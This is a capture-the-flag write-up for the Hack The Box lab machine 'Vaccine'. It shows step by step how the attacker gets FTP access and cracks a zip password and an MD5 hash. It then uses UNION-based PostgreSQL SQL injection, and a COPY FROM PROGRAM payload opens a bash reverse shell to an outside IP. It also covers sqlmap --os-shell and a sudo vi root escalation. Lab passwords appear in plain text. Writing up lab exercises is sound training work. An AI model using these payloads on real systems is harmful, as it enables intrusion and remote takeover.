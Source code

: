 ## ------------------->> Vaccine <<-------------------

// We will start with scanning using nmap

    $ nmap -sV -A -Pn 10.10.10.46 -p-
    Nmap scan report for 10.10.10.46
    Host is up (0.23s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
// we got 3 services running (FTP,SSH,HTTP). since we got credentials from last box(Oopsie), we can try to connect to FTP 

    ftp -p 10.10.10.46 
    ftpuser : mc@F1l3ZilL4
// we locate file called backup.zip in the ftp shared directory, lets grab him

    ftp> ls
    227 Entering Passive Mode (10,10,10,46,39,53).
    150 Here comes the directory listing.
    -rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
    226 Directory send OK.

    ftp> get backup.zip
// its seems that file have password, lets crack the password using john

    $ zip2john backup.zip > hash
    $ john hash --fork=4 -w=/wordlist.txt
    backup.zip password : 741852963

// we got file called index.php

	index.php -> login admin password_md5 : "2cb42f8734ea607eefed3b70af13bbd3"
// decode the hash using online md5 decoder https://www.md5online.org/
![Image 1](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_10_35.png)

	"2cb42f8734ea607eefed3b70af13bbd3" -> qwerty789

// login to http://10.10.10.46/ with credentials 'admin : qwerty789' get us to car catatlog with a search bar
when i search for 'a' i can see that url changes to http://10.10.10.46/dashboard.php?search=a when i try to insert quots i get an error:

	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// now we can see that the server is vulnerable for sql injection
source: https://portswigger.net/web-security/sql-injection/union-attacks
// when we got the Error 
	
	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// we can see that we have a table called 'cars', to find how many columns are in that table we can inject :

	' ORDER BY 1--
// and increase the number(1 to 2 and 3 ...) 
// all works till ' ORDER BY 5--

	ERROR: syntax error at or near "BY5" LINE 1: Select * from cars where name ilike '%' ORDER BY5--%' ^
// now we will submitting a series of UNION SELECT payloads specifying a different number of null

    ' UNION SELECT 'a', NULL, NULL, NULL, NULL -- : 
	ERROR: invalid input syntax for integer: "a" LINE 1: ...ect * from cars where name ilike '%' UNION SELECT 'a', NULL,... ^
    ' UNION SELECT NULL, 'a', NULL, NULL, NULL -- : VALID
    ' UNION SELECT NULL, NULL, 'a', NULL, NULL -- : VALID
    ' UNION SELECT NULL, NULL, NULL, 'a', NULL -- : VALID
    ' UNION SELECT NULL, NULL, NULL, NULL, 'a' -- : VALID

// Insert:

	' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_40_43.png)
// set a listiner

	$ rlwrap nc -lvnp 1444
// Insert:

	'; CREATE TABLE cmd_exec(cmd_output text); --
	'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.16.7/1444 0>&1'''; --
// we got a shell!

	$ rlwrap nc -lvnp 1444
	listening on [any] 1444 ...
	connect to [10.10.16.7] from (UNKNOWN) [10.10.10.46] 41756
	bash: cannot set terminal process group (11360): Inappropriate ioctl for device
	bash: no job control in this shell
	postgres@vaccine:/var/lib/postgresql/11/main$ whoami
	whoami
	postgres
	postgres@vaccine:/var/lib/postgresql/11/main$ 
// There is another way to automate this process with using sqlmap tool

	$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --dump-all --tamper=space2comment
// and then

	sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --os-shell

// upgrade connection with nc listiner on port 1234

	bash -c 'bash -i >& /dev/tcp/10.10.16.7/1234 0>&1'

// upgrade nc shell

	SHELL=/bin/bash script -q /dev/null
// Now when we got shell lets dig in www/ directory

	postgres@vaccine:/var/www/html$ cat dashboard.php

	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}

// now we can upgrade our shell

	postgres@vaccine:$ python3 -c "import pty;pty.spawn('/bin/bash')"
	P@s5w0rd!
// Or just connect SSH

	ssh postgres@10.10.10.46
	P@s5w0rd!


// we can see that we root privilleged with vi to 'pg_hba.conf' configuration file

	postgres@vaccine:~$ sudo -l
	[sudo] password for postgres: 
	Matching Defaults entries for postgres on vaccine:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User postgres may run the following commands on vaccine:
	    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
// Run that file with sudo
	    
	postgres@vaccine:~$ sudo vi /etc/postgresql/11/main/pg_hba.conf 
// Enter

	root@vaccine:/var/lib/postgresql# id
	uid=0(root) gid=0(root) groups=0(root)
// we got the flag

	root@vaccine:~# cat root.txt
	dd6e058e8.................
